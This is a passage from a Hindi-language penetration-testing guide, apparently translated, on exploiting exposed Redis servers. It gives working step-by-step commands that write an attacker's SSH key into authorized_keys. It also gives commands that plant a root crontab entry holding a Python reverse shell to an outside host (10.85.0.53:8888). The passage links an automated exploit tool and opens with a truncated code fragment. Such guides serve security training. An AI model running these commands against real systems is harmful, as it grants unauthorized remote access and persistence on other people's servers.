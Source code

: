```javascript
});"
)()}}
```
> [!WARNING]
> ध्यान दें कि **कई टेम्पलेट इंजन टेम्पलेट्स को** **मेमोरी** में कैश करते हैं, इसलिए यदि आप उन्हें ओवरराइट करते हैं, तो नया **निष्पादित नहीं होगा**। इन मामलों में, या तो डेवलपर ने स्वचालित पुनः लोड सक्रिय रखा है या आपको सेवा पर DoS करना होगा (और उम्मीद करनी होगी कि इसे स्वचालित रूप से फिर से लॉन्च किया जाएगा)।

### SSH

उदाहरण [यहां से](https://blog.adithyanak.com/oscp-preparation-guide/enumeration)

कृपया ध्यान दें कि **`config get dir`** का परिणाम अन्य मैन्युअल रूप से शोषण कमांड के बाद बदल सकता है। सुझाव है कि इसे Redis में लॉगिन करने के तुरंत बाद पहले चलाएं। **`config get dir`** के आउटपुट में आप **redis उपयोगकर्ता** का **home** पा सकते हैं (आमतौर पर _/var/lib/redis_ या _/home/redis/.ssh_) और यह जानकर आप जानते हैं कि आप `authenticated_users` फ़ाइल को ssh **उपयोगकर्ता redis** के माध्यम से एक्सेस करने के लिए कहां लिख सकते हैं। यदि आप अन्य मान्य उपयोगकर्ता का home जानते हैं जहां आपके पास लिखने की अनुमति है, तो आप इसका भी दुरुपयोग कर सकते हैं:

1. अपने पीसी पर एक ssh सार्वजनिक-निजी कुंजी जोड़ी उत्पन्न करें: **`ssh-keygen -t rsa`**
2. सार्वजनिक कुंजी को एक फ़ाइल में लिखें: **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. फ़ाइल को redis में आयात करें: **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4. Redis सर्वर पर **authorized_keys** फ़ाइल में सार्वजनिक कुंजी सहेजें:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

5. अंत में, आप निजी कुंजी के साथ **redis सर्वर** पर **ssh** कर सकते हैं: **ssh -i id_rsa redis@10.85.0.52**

**यह तकनीक यहां स्वचालित है:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab
```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```
अंतिम उदाहरण Ubuntu के लिए है, **Centos** के लिए, उपरोक्त कमांड होनी चाहिए: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`
